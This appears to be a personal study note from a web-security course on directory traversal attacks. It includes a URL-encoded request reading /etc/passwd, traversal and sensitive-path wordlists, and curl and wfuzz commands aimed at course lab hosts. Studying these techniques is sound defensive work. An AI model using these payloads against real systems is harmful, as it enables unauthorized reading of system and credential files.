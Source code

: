 ```yaml
---
tags:
- directoryTraversal
---
```


# Directory Traversal or Path Traversal

Directory Traversal - an attack that exploits bad security validation inputs file names.

In a Windows machine, we can specify both the “../” and “..\\” traversal strings.  [[2023051318534545 Directory Traversal or Path Traversal#^3eb7f0]]

/etc/passwd analog for windows machine is **C:\Windows\win.ini**

Browser can do url normalisation [[2023051318534545 Directory Traversal or Path Traversal#^1f604a]] . So we can use burp suite or curl to do request without url normalisation. 
Example:
```bash
curl -v http://www.megacorpone.com/about.html/../index.html
```
Or we can use URL encoded symbols:

%2f - "/"
%20 - " "
$3D = "="

Sample URL encoded  GET request:
```
GET /files/..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
```

## Example Directory traversal vulnerability
![[Pasted image 20230513191044.png]]
Traversal strings: `../`

![[Pasted image 20230513201756.png]]
![[Pasted image 20230513201813.png]]
## Word lists
/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt

Or custom word list to find location some file.
paths.txt
```
../
../../
../../../
../../../../
../../../../../
../../../../../../
../../../../../../../
```

other custom sec list:
custom_sec_list_dir_path.txt 
```
/www/logs
/www
/usr
/usr/local
/home
/var
/var/log
/var/log/news
/var/log/mysql
/var/cron
/var/www
/var/www/vhosts
/apache2
/admin
/apache2/logs
/apache/logs
/bin

/
/boot
/etc
/etc/apache2
/etc/apache2/conf
/etc/apache/conf
/etc/apache
/etc/apache2/sites-available
/etc/apache2/sites-available/default
/etc/apache/sites-available
/etc/apache/sites-available/default
/etc/defaults
/etc/httpd/conf.d
/etc/httpd/conf
/etc/httpd/logs
/etc/httpd
/etc/http
/etc/init.d
/etc/mail
/etc/mailman
/etc/mysql
/etc/opt
/etc/opt/ipf
```
## Fuzzing
Determine which file exists in directory:
```bash
wfuzz -c -z file,/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt http://dirTravSandbox:80/relativePathing.php?path=../../../../../../../../../../FUZZ
```

[[202309061806022 Example how to find file in directory traversal]]
## References
1.  (Wikipedia, 2021), [https://en.wikipedia.org/wiki/Directory_traversal_attack](https://en.wikipedia.org/wiki/Directory_traversal_attack) [↩︎](https://portal.offsec.com/courses/web-200/books-and-videos/modal/modules/directory-traversal-attacks/directory-traversal-attacks#fnref1)
2. web200.Directory Traversal Attacks
3. web200, p. 254 ^3eb7f0
4. (Wikipedia, 2021), https://en.wikipedia.org/wiki/URI_normalization ^1f604a